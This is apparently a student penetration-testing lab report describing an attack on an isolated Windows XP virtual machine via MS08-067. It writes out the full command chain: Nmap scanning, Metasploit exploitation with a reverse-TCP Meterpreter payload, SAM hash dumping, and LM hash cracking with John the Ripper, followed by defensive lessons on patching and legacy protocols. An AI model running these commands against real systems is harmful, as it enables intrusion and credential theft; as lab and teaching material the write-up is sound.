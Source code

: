 # **Task-04: Windows XP Exploitation & Password Hash Cracking**

## **⚠️ Disclaimer: For Educational Purposes Only**

**This report documents a controlled security exercise performed in a strictly isolated, self-contained lab environment.**
*   **All activities were conducted on my own virtual machines, which I own and operate.**
*   **The target operating system (Windows XP) is end-of-life, intentionally vulnerable, and has no connection to any real network, production system, or internet-facing service.**
*   **No actual user data was compromised. The "victim" machine was created solely for this educational demonstration.**

**The purpose of this project is strictly educational and defensive. It aims to:**
*   Understand the process of a complete attack chain from reconnaissance to credential access.
*   Demonstrate the critical dangers of using outdated, unpatched software and weak passwords.
*   Highlight the importance of robust patch management, strong credential policies, and modern security controls.

**Unauthorized testing, exploitation, or access of systems you do not own is illegal and unethical. This knowledge is to be used responsibly for defensive security, penetration testing with explicit permission, and improving organizational security posture.**

---

## **Overview**

This task involved a full penetration testing cycle against a legacy Windows XP system. The objective was to exploit a known vulnerability to gain remote access, extract password hashes from the system's SAM database, and successfully crack them to obtain plaintext credentials. This demonstrates a critical attack vector where initial access leads to credential compromise.

## **Lab Environment**

*   **Attacker Machine:** Kali Linux 2023.4 (Virtual Machine)
    *   **IP Address:** `192.168.134.129`
*   **Target Machine:** Windows XP Professional SP2 (Virtual Machine - **Intentionally vulnerable and isolated**)
    *   **IP Address:** `192.168.134.133`
    *   **Firewall Status:** Disabled (Required for this lab exercise)
*   **Network:** Both VMs connected to a virtual "Host-Only" network, ensuring no external connectivity.

## **Tools Used**

*   **Reconnaissance:** `Nmap`
*   **Exploitation Framework:** `Metasploit Framework (msfconsole)`
*   **Exploit Module:** `exploit/windows/smb/ms08_067_netapi`
*   **Payload:** `windows/meterpreter/reverse_tcp`
*   **Post-Exploitation:** `Meterpreter` (for `hashdump`)
*   **Password Cracking:** `John the Ripper`

---

## **Methodology & Detailed Steps**

### **Step 1: Reconnaissance with Nmap**

The first step was to discover open ports and running services on the target to identify potential entry points.

*   **Command Executed:**
    ```bash
    nmap -sV -p- 192.168.134.133
    ```
*   **Flags Explained:**
    *   `-sV`: Service version detection.
    *   `-p-`: Scan all 65,535 TCP ports.
*   **Finding:** The scan revealed open ports, notably port **445/tcp (microsoft-ds)**, indicating the Server Message Block (SMB) service was running. This is a common vector for exploitation on older Windows systems.

**Screenshot 1: Nmap scan results showing open ports on the Windows XP target.**
*(Insert your screenshot of the Nmap output here)*

---

### **Step 2: Vulnerability Research**

With the SMB service identified, the next step was to find known, public exploits for this service on Windows XP.

*   **Command Executed:**
    ```bash
    searchsploit ms08-067
    ```
*   **Finding:** The `searchsploit` command confirmed the existence of a public exploit for **MS08-067**, a critical remote code execution vulnerability in the Windows Server service.

**Screenshot 2: SearchSploit results showing the MS08-067 exploit module.**
*(Insert your screenshot of the searchsploit output here)*

---

### **Step 3: Gaining Access with Metasploit**

The Metasploit Framework was used to leverage the discovered vulnerability and gain a remote shell on the target.

*   **Commands Executed:**
    ```bash
    msfconsole
    use exploit/windows/smb/ms08_067_netapi
    set RHOSTS 192.168.134.133
    set LHOST 192.168.134.129
    set PAYLOAD windows/meterpreter/reverse_tcp
    exploit
    ```
*   **Result:** The exploit was successful, and a `meterpreter` session was opened, providing a powerful interactive command shell on the Windows XP system.

**Screenshot 3: Successful Metasploit exploitation resulting in a Meterpreter session.**
*(Insert your screenshot of the successful `exploit` command and meterpreter prompt here)*

---

### **Step 4: Post-Exploitation & Hash Dumping**

With system access established, the next goal was to extract password hashes for cracking.

*   **Command Executed from Meterpreter:**
    ```bash
    hashdump
    ```
*   **Result:** The `hashdump` command extracted the LM and NTLM password hashes for all local users from the SAM database. These hashes were saved to a file (`hashes.txt`) on the Kali machine for offline cracking.

**Screenshot 4: Output of the `hashdump` command showing the captured LM and NTLM hashes.**
*(Insert your screenshot of the hashdump output here)*

---

### **Step 5: Password Cracking with John the Ripper**

The final step was to crack the extracted hashes to obtain the plaintext passwords.

*   **Initial Attempt (NTLM):**
    ```bash
    john --format=NT --wordlist=/usr/share/wordlists/rockyou.txt hashes.txt
    ```
    *   **Result:** The crack attempt failed. This can happen if the password is not in the wordlist or is strong enough to resist a dictionary attack.

*   **Successful Attempt (LM):**
    ```bash
    john --format=LM --wordlist=/usr/share/wordlists/rockyou.txt hashes.txt
    ```
    *   **Result:** **Success!** The LM hash was cracked instantly. This is because the LM hashing algorithm is cryptographically weak and breaks passwords into two 7-character halves, making it highly vulnerable to fast cracking.

**Screenshot 5: John the Ripper successfully cracking the LM hash.**
*(Insert your screenshot of John showing the cracked password here)*

---

## **Key Findings & Security Implications**

1.  **Criticality of Patch Management:** The entire attack was possible due to an **unpatched vulnerability from 2008**. This underscores the non-negotiable importance of a robust and timely patch management policy. MS08-067 has a patch available that completely prevents this exploit.
2.  **Weakness of Legacy Protocols:** The success in cracking the **LM hash** highlights the danger of using outdated cryptographic protocols. Modern Windows systems disable LM hashing by default due to its severe weaknesses. This attack would fail against a modern, properly configured Windows 10/11 system using only NTLMv2 or Kerberos.
3.  **The Attack Chain:** This exercise demonstrates a classic cyber kill chain:
    *   **Reconnaissance** (Nmap Scan)
    *   **Weaponization** (Selecting MS08-067 exploit)
    *   **Delivery & Exploitation** (Metasploit execution)
    *   **Installation** (Meterpreter payload)
    *   **Command & Control** (Reverse TCP connection)
    *   **Actions on Objectives** (Hash dumping and cracking)
4.  **Defense in Depth:** Mitigation requires multiple layers of defense:
    *   **Network Layer:** Firewalls and network segmentation to restrict SMB traffic.
    *   **Host Layer:** Regular patching, disabling unnecessary services (like SMB if not needed), and using modern OS versions.
    *   **Credential Layer:** Enforcing strong, complex passwords that are resistant to dictionary attacks.

## **Conclusion**

This task provided a practical, end-to-end demonstration of a common attack vector targeting legacy systems. By understanding each step—from initial scanning to final password cracking—we can better appreciate the tactics, techniques, and procedures (TTPs) used by adversaries. This knowledge is fundamental for roles in penetration testing, blue team defense, and incident response, as it directly informs how we build, monitor, and defend modern networks against real-world threats.

The key takeaway is that security is a continuous process. Vigilance in patching, system hardening, and user education remains the most effective defense against these types of exploits.
